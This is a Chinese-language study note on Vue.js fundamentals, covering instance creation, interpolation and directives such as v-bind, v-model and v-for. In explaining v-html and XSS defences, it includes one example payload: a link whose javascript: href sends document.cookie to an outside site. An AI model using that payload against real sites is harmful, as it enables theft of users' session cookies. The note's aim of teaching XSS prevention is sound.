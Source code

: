 # Vue

###  创建

想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象。
被Vue接管的容器中的代码依然符合html规范，只不过混入了一些特殊的Vue语法。
root容器里的代码被称为【Vue模板】
Vue实例和容器是一一对应的
真实开发中只有一个Vue实例，并且会配合着组件一起使用
{{xxx}}中的xxx要写js表达式，且xxx就可以自动读取到data中的所有属性
一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新

```html
<!-- 准备一个容器 -->
<div id="root">
    <h1>
        Hell,{{name}}
    </h1>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false // 阻止vue在启动时生成生产提示
    // 创建Vue实例
    new Vue({
        el:'#root', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
        data:{ //data中用于存储数据，数据供el所指定的容器去使用，值现在暂时先写成一个对象，后面换成函数。
            name:'xiaoming'
        }
    })
</script>
```



#### 模板语法

##### 插值

功能：用于解析标签体内容
写法：{{xxx}}，xxx是js表达式，且可以直接读取到data中的所有属性
文本 {{}}

纯HTML

v-html,防止XSS,CSRF(
    1.前端过滤
    2.后台转义`(<> &lt;&gt;)`
    3.给cookie加上属性http
)

```js
<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>
```

##### 指令

是带有v-前缀的特殊属性
功能：用于解析标签（包括：标签属性，标签内容，绑定事件。。。）
v-bind 动态绑定属性

    缩写：:src

Vue中有两种数据绑定的方式：

- 单向绑定（v-bind）:数据只能从data流向页面。
- 双向绑定（v-model）:数据不仅能从data流向页面，还可以从页面流向data
  - 双向绑定一般都应用在表单类元素上（如input,select）
  - v-model:value可以简写为v-model，因为v-model默认收集的就是value值。

v-if 动态创建/删除

v-show 动态显示/隐藏

v-on:click 绑定事件

    缩写：@click

v-for 遍历

v-model 双向绑定表单
